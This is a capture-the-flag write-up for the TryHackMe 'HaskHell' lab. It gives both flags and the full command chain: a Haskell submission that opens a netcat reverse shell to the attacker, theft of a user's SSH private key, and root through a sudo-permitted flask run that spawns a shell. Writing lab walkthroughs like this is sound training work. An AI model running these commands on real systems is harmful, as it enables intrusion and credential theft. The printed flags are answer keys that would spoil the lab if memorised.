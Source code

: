 # <div align="center">[HaskHell](https://tryhackme.com/r/room/haskhell)</div>
<div align="center">Teach your CS professor that his PhD isn't in security</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/22815413-4b47-4523-ab64-26ea043316c3" height="200"></img>
</div>

# Task 1. HaskHell

Show your professor that his PhD isn't in security.

Please send comments/concerns/hatemail to @passthehashbrwn on Twitter.

### Get the flag in the user.txt file.
```
flag{academic_dishonesty}
```
```
sudo nmap -sSCV <IP>
http://<IP>:5001/submit

#!/usr/bin/env runhaskhell
module Main where
import System.Process
main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 4444 >/tmp/f"


nc -nlvp 4444
whoami
id
ls -la /home
cd /home/prof/.ssh/
ls -la
which python3
python3 -m http.server
wget http://<IP>:8000/id_rsa

chmod 600 id_rsa
ssh -i id_rsa prof@<IP>
cat /home/prof/user.txt
```
### Obtain the flag in root.txt
```
flag{im_purely_functional}
```
```
SHELL=/bin/bash script -q /dev/null
sudo -l
ls -l /usr/bin/flask
file /usr/bin/flask
cat /usr/bin/flask
python3 /usr/bin/flask


cat > shell.py << EOF
> #!/usr/bin/env python3
> import pty
> pty.spawn("/bin/bash")
> EOF

export FLASK_APP=shell.py
sudo /usr/bin/flask run
whoami
cat /root/root.txt
```
